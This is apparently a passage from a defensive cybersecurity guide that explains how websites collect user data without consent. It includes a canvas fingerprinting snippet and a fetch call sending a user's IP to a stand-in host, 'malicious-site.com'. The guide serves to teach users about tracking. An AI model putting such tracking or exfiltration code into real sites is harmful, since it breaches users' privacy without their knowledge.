 # 🛡️ Cybersecurity Protection Guide

## 🚨 **How Hackers Collect Data Without Consent**

### **1. Browser Fingerprinting**
**What it is:** Creating unique identifiers based on browser characteristics
**How it works:**
- Canvas fingerprinting (rendering differences)
- WebGL fingerprinting (graphics card info)
- Font detection (available system fonts)
- Plugin enumeration (installed browser plugins)

**Real-world example:**
```javascript
// Malicious website collects this data silently
const canvas = document.createElement('canvas');
const ctx = canvas.getContext('2d');
ctx.fillText('Fingerprint', 0, 0);
const fingerprint = canvas.toDataURL(); // Unique signature
```

### **2. IP Address Collection**
**What it is:** Obtaining user's real IP address
**Methods:**
- External API calls (`api.ipify.org`, `ipapi.co`)
- WebRTC leaks (peer-to-peer connections)
- DNS queries to malicious servers
- Image requests with IP logging

**Real-world example:**
```javascript
// Hidden iframe or script tag
fetch('https://malicious-site.com/collect?ip=' + userIP)
  .then(response => response.json())
  .then(data => {
    // IP address collected without user knowledge
  });
```

### **3. Device Information Harvesting**
**What it is:** Collecting comprehensive device details
**Data collected:**
- User agent string
- Screen resolution
- Installed plugins
- Hardware concurrency
- Device memory
- Timezone
- Language preferences
